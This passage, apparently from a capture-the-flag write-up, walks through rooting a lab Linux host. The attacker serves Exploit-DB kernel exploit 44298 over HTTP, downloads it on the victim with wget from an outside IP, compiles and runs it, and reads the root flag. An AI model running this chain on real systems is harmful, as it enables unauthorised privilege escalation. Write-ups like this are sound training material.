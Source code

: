 {% highlight plaintext %}
root@kali:~# searchsploit -m 44298

Exploit: Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation

URL: https://www.exploit-db.com/exploits/44298

Path: /usr/share/exploitdb/exploits/linux/local/44298.c

File Type: C source, ASCII text, with CRLF line terminators

Copied to: /root/44298.c

root@kali:~# python -m SimpleHTTPServer 8888
Serving HTTP on 0.0.0.0 port 8888 ...
{% endhighlight %}

On the victim machine, I move to a /tmp folder and download the exploit:

{% highlight plaintext %}
help@help:/home/help$ cd /tmp
cd /tmp
help@help:/tmp$ wget http://10.10.14.11:8888/44298.c
wget http://10.10.14.11:8888/44298.c
--2019-09-22 19:15:31--  http://10.10.14.11:8888/44298.c
Connecting to 10.10.14.11:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6021 (5.9K) [text/plain]
Saving to: '44298.c'

44298.c             100%[===================>]   5.88K  --.-KB/s    in 0s

2019-09-22 19:15:31 (333 MB/s) - '44298.c' saved [6021/6021]
{% endhighlight %}

I compile it and make it executable:

{% highlight plaintext %}
help@help:/tmp$ gcc 44298.c -o 44298
gcc 44298.c -o 44298
help@help:/tmp$ chmod +x 44298
chmod +x 44298
{% endhighlight %}

Then I run it:

{% highlight plaintext %}
help@help:/tmp$ ./44298
./44298
task_struct = ffff88003a887000
uidptr = ffff880038a13084
spawning root shell
{% endhighlight %}

And we have root.

{% highlight plaintext %}
root@help:/tmp# whoami
whoami
root
{% endhighlight %}

Proof of flag.

{% highlight plaintext %}
root@help:/root# wc -c root.txt
wc -c root.txt
33 root.txt
{% endhighlight %}
